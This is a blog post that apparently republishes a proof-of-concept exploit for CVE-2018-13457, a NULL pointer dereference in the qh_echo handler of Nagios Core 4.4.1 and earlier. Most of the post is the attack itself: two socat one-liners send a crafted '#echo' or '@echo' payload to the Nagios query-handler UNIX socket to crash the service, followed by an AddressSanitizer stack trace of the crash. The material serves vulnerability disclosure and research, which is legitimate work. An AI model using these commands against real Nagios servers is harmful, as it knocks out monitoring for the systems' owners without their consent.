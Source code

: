 ```yaml
---
layout: post
title: "Nagios Core qh_echo Denial of Service"
comments: true
description: "Nagios Core qh_echo Denial of Service"
keywords: "nagios, nagioscore, dos, denial of service"
---
```


Exploit Title: Nagios Core qh_echo Denial of Service<br>
Date: 2018-07-09<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.nagios.org/<br>
Software Link: https://www.nagios.org/downloads/nagios-core/<br>
Version: 4.4.1 and earlier<br>
Tested on: 4.4.1<br>
CVE : CVE-2018-13457<br>

qh_echo in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```
$ echo -ne "#echo\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@echo\0" | socat unix-connect:./poc/nagios.qh -

#0 0x4cb18b in __interceptor_strcmp.part.60 /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:422
#1 0x554e98 in qh_echo /home/user/nagioscore/base/query-handler.c:29:7
#2 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#3 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#4 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#5 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#6 0x7f183c5f782f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#7 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
